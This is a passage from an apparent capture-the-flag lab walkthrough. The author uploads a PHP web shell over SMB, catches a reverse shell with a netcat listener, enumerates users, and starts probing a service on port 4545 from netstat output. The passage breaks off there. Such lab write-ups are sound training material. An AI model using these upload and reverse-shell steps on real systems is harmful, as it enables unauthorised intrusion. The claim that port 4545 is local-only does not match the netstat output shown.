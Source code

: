 ```bash
╰─ lanfran@parrot ❯ cat note.txt                                                                                                   ─╯
Secure File Upload and Testing Functionality

╰─ lanfran@parrot ❯ smbclient //10.10.1.67/SECURED -U ArthurMorgan                                                                 ─╯
Enter WORKGROUP\ArthurMorgan's password: 
Try "help" to get a list of possible commands.
smb: \> put shell_online.php 
putting file shell_online.php as \shell_online.php (27.9 kb/s) (average 27.9 kb/s)
```
```bash
╰─ lanfran@parrot ❯ nc -nlvp 1337                                                                                                  ─╯
listening on [any] 1337 ...
connect to [10.9.4.9] from (UNKNOWN) [10.10.1.67] 42472
bash: cannot set terminal process group (1008): Inappropriate ioctl for device
bash: no job control in this shell
www-data@incognito:/var/www/html/dev$ id
id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
www-data@incognito:/var/www/html/dev$ whoami
whoami
www-data
www-data@incognito:/var/www/html/dev$ ls -lRta /home
ls -lRta /home
/home:
total 16
drwxr-xr-x  8 marston      marston      4096 May 29 11:08 marston
drwxr-xr-x  6 ArthurMorgan ArthurMorgan 4096 May 28 13:23 ArthurMorgan
drwxr-xr-x 25 root         root         4096 May 28 12:59 ..
drwxr-xr-x  4 root         root         4096 Mar 21 21:46 .
```
And we can read the user's flag inside `/home/ArthurMorgan/user.txt`.

## Root

We switched to `arthurmorgan` with the password, and run the command `netstat -tulwn`

```bash
ArthurMorgan@incognito:/var/www/html/dev$ netstat -tulwn
Active Internet connections (only servers)
Proto Recv-Q Send-Q Local Address           Foreign Address         State      
tcp        0      0 0.0.0.0:139             0.0.0.0:*               LISTEN     
tcp        0      0 0.0.0.0:8082            0.0.0.0:*               LISTEN     
tcp        0      0 127.0.0.53:53           0.0.0.0:*               LISTEN     
tcp        0      0 127.0.0.1:22            0.0.0.0:*               LISTEN     
tcp        0      0 0.0.0.0:445             0.0.0.0:*               LISTEN     
tcp        0      0 0.0.0.0:4545            0.0.0.0:*               LISTEN     
tcp6       0      0 :::139                  :::*                    LISTEN     
tcp6       0      0 :::8080                 :::*                    LISTEN     
tcp6       0      0 :::445                  :::*                    LISTEN     
udp        0      0 127.0.0.53:53           0.0.0.0:*                          
udp        0      0 10.10.138.243:68        0.0.0.0:*                          
udp        0      0 10.10.255.255:137       0.0.0.0:*                          
udp        0      0 10.10.138.243:137       0.0.0.0:*                          
udp        0      0 0.0.0.0:137             0.0.0.0:*                          
udp        0      0 10.10.255.255:138       0.0.0.0:*                          
udp        0      0 10.10.138.243:138       0.0.0.0:*                          
udp        0      0 0.0.0.0:138             0.0.0.0:*                          
raw6       0      0 :::58                   :::*                    7               
```
We found a port `4545` accepting connections just from the machine itself, so what if we use `netcat`...
